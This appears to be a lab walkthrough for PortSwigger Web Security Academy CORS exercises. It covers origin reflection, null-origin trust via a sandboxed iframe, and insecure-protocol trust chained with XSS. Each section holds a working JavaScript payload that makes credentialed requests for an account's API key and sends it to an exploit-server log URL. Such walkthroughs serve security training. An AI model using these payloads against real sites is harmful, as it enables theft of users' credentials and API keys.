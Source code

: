 ### CORS vulnerability with basic origin reflection

The API Key value is retrieved in the /accountDetails request. You can see it has the "Access-Control-Allow-Credentials: true", so it is related to CORS.
Try adding a Origin: https://example.com and you will see it's reflected. So, its vulnerable because is trusting in any origin you set, so the request asking for the administrator API Key is able to have any origin and the app will trust.

Payload:
```HTML
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

---
### CORS vulnerability with trusted null origin

This exercise is the same as previous one, but it allows a malicious user to set the Origin: `null`. For this reason, the payload we will use is with an iframe sandbox, to generate a null origin request. 

Payload:
```HTML
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

---
### CORS vulnerability with trusted insecure protocols

When yo access a product, you can see it's opening a new window http://stock.LAB-ID, so you will craft the payload for this:

```HTML
<script>
	document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

